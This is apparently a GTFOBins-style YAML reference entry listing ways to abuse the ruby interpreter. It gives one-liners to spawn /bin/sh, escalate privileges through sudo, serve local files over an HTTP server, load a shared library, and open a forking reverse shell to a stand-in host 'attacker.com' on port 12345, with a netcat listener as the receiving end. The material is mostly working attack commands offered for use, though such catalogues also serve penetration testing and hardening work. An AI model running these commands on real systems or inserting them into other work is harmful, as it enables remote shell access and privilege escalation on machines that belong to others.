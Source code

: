 ```yaml
---
functions:
  exec-interactive:
    - code: ruby -e 'exec "/bin/sh"'
  sudo-enabled:
    - code: sudo ruby -e 'exec "/bin/sh"'
  upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        ruby -run -e httpd . -p $LPORT
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
  load-library:
    - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
---
```

